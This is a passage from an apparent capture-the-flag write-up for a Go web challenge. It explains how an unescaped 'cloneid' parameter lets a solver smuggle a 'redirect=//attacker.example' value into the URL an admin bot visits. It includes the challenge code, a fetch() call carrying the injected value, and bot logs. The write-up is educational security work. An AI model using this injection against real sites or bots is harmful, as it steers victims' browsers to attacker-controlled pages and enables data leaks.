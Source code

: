 ```go, hl_lines=12 39
      return
    }
  }

  // Call the bot
  data := struct {
    Actions []interface{} `json:"actions"`
    Browser string        `json:"browser"`
  }{
    Actions: []interface{}{
      // ...
      map[string]string{
        "type": "request",
        "url":  CHALL_URL + "/clone?cloneid=" + cloneid,
      },
      // ...
    },
    Browser: "chrome",
  }

  // ...
}
```

The endpoint accepts a `cloneid` parameter given in the POST request's body,
which if empty just defaults to the ID of the current user.
This parameter is then passed as a query parameter to a URL the bot visits,
but with no escaping whatsoever.
This means that we can pass additional query parameters (e.g., the aforementioned
`redirect` parameter) and get the bot to visit our own website, simply by sending
`cloneid=something&redirect=//attacker.example` in the body of the request.

We can see this in action by sending a request using the following code in the
browser's console (or using your favourite HTTP client) and taking a look at the
headless Chromium's logs:

```js
fetch(`/checkboard`, {
  method: 'POST',
  body: new URLSearchParams({
    cloneid: 'something&redirect=//attacker.example',
  }),
});
```

```hl_lines=17
[INFO] time=4
[INFO] Sleeping for 4 seconds...
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
[DEBUG]   - 200 https://accounts.google.com/ListAccounts?gpsia=1&source=ChromiumBrowser&json=standard
[DEBUG]   - 200 https://update.googleapis.com/service/update2/json?cup2key=13:uZY9aaXIKQsxzpLXZabR1vcg_15CqJ1jrffybVm5VM8&cup2hreq=0bc0f2ab95433858138f92c381c78020f721e52187712d7bfbc035c0241f9914
[DEBUG]   - 200 http://edgedl.me.gvt1.com/edgedl/chromewebstore/L2Nocm9tZV9leHRlbnNpb24vYmxvYnMvYTBmQUFZUHRkSkgtb01uSGNvRHZ2Tm5HQQ/1.0.0.15_llkgjffcdpffmhiakmfcdcblohccpfmo.crx
[DEBUG]   - 200 https://update.googleapis.com/service/update2/json
[DEBUG]   - 200 https://update.googleapis.com/service/update2/json?cup2key=13:wAPwclgoQoguPMBkA2lMUoNigyPGWWCOkZ1lzJVrdWo&cup2hreq=9fbcdeebd981821a4d766860571b378f3bb9d80d5bf8acecc0c112c631bf5314
[DEBUG]   - 200 https://gosweeper.example/login
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 404 https://gosweeper.example/favicon.ico
[DEBUG]   - 200 https://content-autofill.googleapis.com/v1/pages/ChNDaHJvbWUvMTIyLjAuNjI0OC4wEhkJqFiiaKxoaTESBQ2jwhVDIeiPPZAbjv6B?alt=proto
[DEBUG]   - 302 https://gosweeper.example/login
```

[XSLeaks]: https://xsleaks.dev
[CSP header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[cors-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[cookie-lax]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax
[coop-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy
[corp-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy
[max-redirects]: https://xsleaks.dev/docs/attacks/navigations/#max-redirects
[unload-event]: https://developer.mozilla.org/en-US/docs/Web/API/Window/unload_event
[window-opener]: https://developer.mozilla.org/en-US/docs/Web/API/Window/opener
[max-redirect-demo]: https://xsinator.com/testing.html#Max%20Redirect%20Leak
[Express]: https://expressjs.com/
[Mustache]: https://mustache.github.io/